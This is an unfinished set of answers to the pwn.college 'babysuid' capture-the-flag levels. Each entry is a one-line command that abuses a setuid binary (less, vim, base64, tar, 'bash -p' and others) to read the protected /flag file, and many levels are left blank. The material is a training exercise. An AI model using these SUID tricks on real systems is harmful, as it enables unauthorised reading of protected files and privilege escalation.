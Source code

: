 #pwncollege
##SETUID
###Babysuid 1
cat /flag
###Babysuid 2
more /flag
###Babysuid 3
less /flag
###Babysuid 4
tail /flag
###Babysuid 5
head /flag
###Babysuid 6
sort /flag
###Babysuid 7
vim /flag
###Babysuid 8
emacs /flag
###Babysuid 9
nano /flag
###Babysuid 10
rev /flag | rev
###Babysuid 11
od -A x -t x1z -v /flag
###Babysuid 12
hd /flag
###Babysuid 13
xxd /flag
###Babysuid 14
base32 /flag | base32 -d
###Babysuid 15
base64 /flag | base64 -d
###Babysuid 16
split /flag
cat xaa
###Babysuid 17
gzip -c /flag | gzip -d -c
###Babysuid 18
bzip2 -c /flag | bzip2 -c -d
###Babysuid 19
zip /tmp/flag.zip /flag && unzip -c /tmp/flag.zip
###Babysuid 20
tar -c /flag -O | tar -x -O
###Babysuid 21
ar r /tmp/flag /flag && cat /tmp/flag
###Babysuid 22
###Babysuid 23
###Babysuid 24
###Babysuid 25
###Babysuid 26
###Babysuid 27
###Babysuid 28
###Babysuid 29
###Babysuid 30
###Babysuid 31
###Babysuid 32
###Babysuid 33
###Babysuid 34
###Babysuid 35
###Babysuid 36
###Babysuid 37
###Babysuid 38
###Babysuid 39
###Babysuid 40
###Babysuid 41
###Babysuid 42
###Babysuid 43
###Babysuid 44
bash -p
cat /flag
###Babysuid 45
###Babysuid 46
###Babysuid 47
###Babysuid 48
###Babysuid 49
###Babysuid 50
###Babysuid 51

